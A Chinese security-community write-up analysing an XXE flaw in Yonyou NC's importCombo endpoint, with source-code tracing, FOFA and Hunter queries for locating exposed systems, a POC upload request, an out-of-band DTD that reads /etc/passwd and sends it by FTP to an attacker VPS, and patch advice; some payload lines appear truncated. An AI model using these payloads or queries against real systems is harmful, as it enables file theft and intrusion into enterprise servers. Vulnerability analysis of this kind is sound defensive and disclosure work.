# 【超详细解析】用友NC系统ComboOperTools存在XML实体注入漏洞的分析-先知社区

> **来源**: https://xz.aliyun.com/news/18619  
> **文章ID**: 18619

---

# 一、**漏洞简介**

用友NC系统是用友面向大型集团企业推出的高端管理软件平台，基于J2EE架构和自研UAP平台构建，提供全球化集团管控、全产业链协同及动态企业建模能力。其核心功能覆盖多级财务管控、供应链协同、人力资本管理等18项核心应用，支持私有云部署及跨国多语言、多会计准则适配。该系统已服务超4000家大型集团客户，是中国高端企业管理软件市场占有率亚太第一的标杆产品。  
2025年8月10日，用友官方发布关于NC系统ComboOperTools存在XML实体注入漏洞的修复通告：<https://security.yonyou.com/#/noticeInfo?id=725> ，宣布修复了NC系统importCombo接口的XXE漏洞，攻击者通过构造恶意XML文件，利用 importCombo 接口上传并解析，实现任意文件读取或SSRF攻击等作，进而可能导致敏感信息泄露或进一步的系统入侵。



# 二、**影响版本**

用友 NC63（补丁包低于NCM\_NC6.3\_000\_109902\_20250730\_GP\_868581196）  
用友 NC65（补丁包低于SUPPORT-NC6.5-Security-20250728171039-122782）

# 三、**漏洞原理分析**



根据用友官方的通告，漏洞的接口是portal/pt/portalcombo/importCombo?pageId=login，我们用NC65的源代码进行分析，首先找到这个接口，接口所在方法的完整路径为nc.uap.portal.action.PortalComboAction



将代码贴出来逐行分析：

```
MultipartHttpServletRequest req = getMultipartResolver(this.request);
Map<String, MultipartFile> fileMap = req.getFileMap();
List<MultipartFile> files = new ArrayList<>();
if (MapUtils.isNotEmpty(fileMap))
   files.addAll(fileMap.values());
```

getMultipartResolver(this.request)调用私有方法解析 MultipartHttpServletRequest 对象，用于处理文件上传请求。req.getFileMap()获取所有上传文件的映射表（键为表单字段名，值为文件对象）。MapUtils.isNotEmpty使用 Apache Commons 工具类检查文件映射非空，避免空指针异常。files.addAll()将文件对象存入列表，便于后续批量操作。

```
InputStream in = ((MultipartFile)files.get(0)).getInputStream();
try {
    ComboOperTools.doImPort(in);
} catch (LfwBusinessException e) {
    PortalLogger.error((Throwable)e);
} finally {
    IOUtils.closeQuietly(in);
}
```

files.get(0)代表仅处理第一个上传文件。ComboOperTools.doImPort(in)将输入流传递给 ComboOperTools.doImPort() 解析，如果该方法内部解析 XML 时未禁用外部实体，攻击者可上传恶意 XML 文件实现触发 XXE 攻击。  
我们跟进ComboOperTools.doImPort方法，该方法所在文件的完整路径为nc.uap.ctrl.pa.tools.ComboOperTools



```
String xml = IOUtils.toString(in);
ComboPackObj packObj = (ComboPackObj)JaxbMarshalFactory.newIns().encodeXML(ComboPackObj.class, xml);
```

重点在这两行代码，将输入流直接转换为字符串，然后调用 JaxbMarshalFactory.encodeXML() 解析 XML 字符串。我们继续跟进JaxbMarshalFactory.encodeXML()方法，该方法所在文件的路径为uap.iweb.xml.JaxbMarshalFactory



```
public <T> T encodeXML(Class<T> clazz, String xml) {
    if (xml == null)
        return null; 
    // 1. 从JaxbPoolManager获取Unmarshaller实例
    Unmarshaller um = (Unmarshaller)JaxbPoolManager.getUnMarshaller(clazz);
    byte[] xmlByte = null;
    try {
        // 2. 将XML字符串转换为UTF-8编码的字节数组
        xmlByte = xml.getBytes("UTF-8");
    } catch (UnsupportedEncodingException e1) {
        Logger.error("XMLtoByte Error:" + xml, e1);
        return null;
    } 
    if (xmlByte == null)
        return null; 
    // 3. 创建输入流
    InputStream reader = new ByteArrayInputStream(xmlByte);
    try {
        // 4. 创建DocumentBuilderFactory
        DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
        // 5. 设置ExpandEntityReferences为false
        dbf.setExpandEntityReferences(false);
        // 6. 创建DocumentBuilder
        DocumentBuilder db = dbf.newDocumentBuilder();
        // 7. 解析XML输入流
        Document document = db.parse(reader);
        // 8. 使用Unmarshaller将Document对象转换为Java对象
        return (T)um.unmarshal(document);
    } catch (Exception e) {
        Logger.error("encodeXML" + clazz.getName() + ";Error message: " + e.getMessage() + "XML:" + xml, e);
        return null;
    } finally {
        // 9. 释放Unmarshaller并关闭输入流
        JaxbPoolManager.freeUnMarshaller(um, clazz);
        IOUtils.closeQuietly(reader);
    } 
}
```

代码中创建了DocumentBuilderFactory实例，并设置了dbf.setExpandEntityReferences(false)。根据Java文档，这个设置的作用是不展开实体引用，而是保留EntityReference节点。然而，这个设置并不能阻止外部实体的加载，因为实体引用仍然会被解析，只是不展开（即不替换为实际内容）。db.parse(reader)会解析传入的XML输入流。如果XML中包含外部实体声明，如：

`<!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><root>&xxe;</root>`  
即使setExpandEntityReferences(false)会导致实体引用不被展开（即&xxe;不会被替换为文件内容），但解析器仍然会尝试加载外部实体（即读取/etc/passwd文件），这可能导致：

* SSRF（服务端请求伪造）：如果外部实体指向一个URL，则会发起网络请求。
* 敏感信息泄露：如果外部实体指向本地文件，文件内容可能通过错误信息泄露（例如，当实体未展开时，可能抛出异常，而异常信息中包含文件内容）。

解析得到的Document对象随后被传递给Unmarshaller.unmarshal(document)。这一步将XML文档转换为Java对象。然而，如果前面的解析步骤已经触发了外部实体的加载（例如，通过SSRF或文件读取），那么即使实体引用未展开，危害已经发生（如内网探测、文件读取等）。

# 四、**环境搭建** **（资产测绘）**

fofa：  
`app="用友\-UFIDA-NC"`



hunter：  
`web.body="uap/rbac"`



# 五、**漏洞复现**

使用NC65复现：



## 1、DNSLog验证

POC：

```
POST /portal/pt/portalcombo/importCombo?pageId=login HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="1.png"

<?xml version="1.0" encoding="UTF-8"?>

%remote;]>
<root/>
------WebKitFormBoundary--
```



DNSLog成功接收到请求：



## 2、任意文件读取

首先要先在自己的vps上某路径放置一个外部实体文件data.dtd，并在同一路径下开启一个http服务，用于让系统来读取外部实体文件。然后在vps上用python脚本开启一个伪ftp服务，用来接收系统的文件读取内容。**这里建议用ftp协议来读取，因为http协议能接收的长度有限，是读取不到/etc/passwd的内容的。** 开启伪ftp服务的脚本见：<https://github.com/lc/230-OOB> 。  
data.dtd的内容：

```
<!ENTITY % d SYSTEM "file:///etc/passwd">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://vps ip:2121/%d;'>">
```



在data.dtd同目录下用python开启http服务：python3 -m http.server 8081 --bind 0.0.0.0  
在vps上用python脚本开启ftp服务监听2121端口（命令为python3 230.py 2121），然后向用友NC系统传送payload：

```
<?xml version="1.0"?>
%asd;%c;]>
<cdl>&rrr;</cdl>
```



向用友NC系统发送xxe payload后，测试系统先去vps获取外部实体文件data.dtd，然后根据外部实体文件data.dtd中写的读取/etc/passwd的文件内容并通过ftp协议再发送到vps的2121端口，在2121端口成功接收到/etc/passwd的文件内容：





# 六、**修复建议**

官方已发布升级补丁，NC63安全补丁NCM\_NC6.3\_000\_109902\_20250730\_GP\_868581196，NC65安全补丁：SUPPORT-NC6.5-Security-20250728171039-122782，补丁下载链接见<https://security.yonyou.com/#/noticeInfo?id=725> 。

# **七、总结**

该XXE漏洞的原因是JaxbMarshalFactory.encodeXML() 内部直接使用 Unmarshaller.unmarshal() 解析 XML，默认启用外部实体解析，之前用友NC也爆出过类似的XXE漏洞，最后都是由于JAXB 底层依赖的 XML 解析器默认允许访问外部资源，比如外部DTD、实体引用等，无论是开发人员还是代码审计的安全人员都应该对JAXB、Unmarshaller等高度警惕。

​
